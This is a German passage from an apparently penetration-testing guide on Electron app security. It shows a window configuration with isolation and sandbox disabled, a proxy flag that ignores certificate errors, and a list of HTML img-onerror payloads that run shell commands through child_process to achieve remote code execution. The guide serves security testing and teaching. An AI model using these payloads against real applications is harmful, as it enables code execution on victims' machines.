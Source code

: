 Beispiel für eine Konfiguration:
```javascript
const mainWindowOptions = {
title: 'Discord',
backgroundColor: getBackgroundColor(),
width: DEFAULT_WIDTH,
height: DEFAULT_HEIGHT,
minWidth: MIN_WIDTH,
minHeight: MIN_HEIGHT,
transparent: false,
frame: false,
resizable: true,
show: isVisible,
webPreferences: {
blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
nodeIntegration: false,
contextIsolation: false,
sandbox: false,
nodeIntegrationInSubFrames: false,
preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
nativeWindowOpen: true,
enableRemoteModule: false,
spellcheck: true
}
};
```
Einige **RCE-Payloads** von [hier](https://7as.es/electron/nodeIntegration\_rce.txt):
```html
Example Payloads (Windows):
<img src=x onerror="alert(require('child_process').execSync('calc').toString());">

Example Payloads (Linux & MacOS):
<img src=x onerror="alert(require('child_process').execSync('gnome-calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
<img src=x onerror="alert(require('child_process').execSync('uname -a').toString());">
```
### Capture traffic

Ändern Sie die start-main-Konfiguration und fügen Sie die Verwendung eines Proxys hinzu, wie:
```javascript
"start-main": "electron ./dist/main/main.js --proxy-server=127.0.0.1:8080 --ignore-certificateerrors",
```
## Electron Lokale Code-Injektion

Wenn Sie eine Electron-App lokal ausführen können, ist es möglich, dass Sie sie dazu bringen können, beliebigen JavaScript-Code auszuführen. Überprüfen Sie, wie in:

{% content-ref url="../../../macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-electron-applications-injection.md" %}
[macos-electron-applications-injection.md](../../../macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-electron-applications-injection.md)
{% endcontent-ref %}
